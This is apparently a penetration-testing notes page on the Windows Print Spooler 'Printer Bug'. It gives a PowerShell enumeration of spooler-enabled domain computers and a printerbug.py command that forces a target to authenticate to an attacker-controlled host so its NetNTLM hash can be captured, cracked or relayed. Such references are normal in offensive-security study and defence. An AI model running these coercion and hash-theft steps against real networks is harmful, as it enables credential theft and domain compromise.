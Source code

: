 # Printer "Bug"

For any computer that has the **Print Spooler service** enabled (often [[domain-controller|domain controllers]]), any authenticated user can send a print notification to that computer, triggering it to authenticate to the computer that the print notification originated from. This can be exploited to relay the authenticating user's NetNTLM hash for access to machine the user is a local administrator on. It can be exploited to extract a computer's NetNTLM hash for [[offline-password-cracking|offline cracking]]. It can also be combined with the compromise of a computer configured with [[unconstrained-delegation|unconstrained delegation]] to steal a domain user's TGT.

---

## Determine which Computers have the Print Spooler Service Enabled (domain user credentials required)

From Linux:

- [[rpcdump#Determine if a Computer has the Print Spooler Service Enabled credentials may be required|impacket-rpcdump]]

From Windows:

```powershell
. .\Get-SpoolStatus.ps1
. .\PowerView.ps1
Get-DomainComputer | % {Get-SpoolStatus -ComputerName $_.DnsHostName}
```

---

## Force Computers with the Print Spooler Service Enabled to Authenticate to an Attacker-Controlled Host and Steal their NetNTLMv2 Hash

From Linux:

1. [[responder#Start Responding|Start responding with Responder]] on the attacker-controlled host.

2. Use `printerbug.py` from [[krbrelayx]] to send the print notification and trigger the target computer to authenticate.

```bash
cd /opt/krbrelayx
python3 printerbug.py [$DOMAIN]/$USERNAME[:$PASSWORD]@$TARGET_FQDN_OR_IP [-hashes $LMHASH:NTLMHASH] $ATTACKER_CONTROLLED_HOST
```

- `$DOMAIN/$USERNAME` is any valid domain user
- `$PASSWORD` or `-hashes` is required

---

## Crack NetNTLMv2 Hashes

See [[hashcat#Crack NetNTLMv2 Hashes|Hashcat]].

---

## [Spool Service Abuse -> NetNTLMv1 -> NTLM -> Silver Ticket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

---

## References

[Specter Ops's Printer Bug C# POC - SpoolSample](https://github.com/leechristensen/SpoolSample)

[Specter Ops's "The Unintended Risks of Trusting Active Directory" DerbyCon Talk](https://www.youtube.com/watch?v=KbTTDICqCa8)
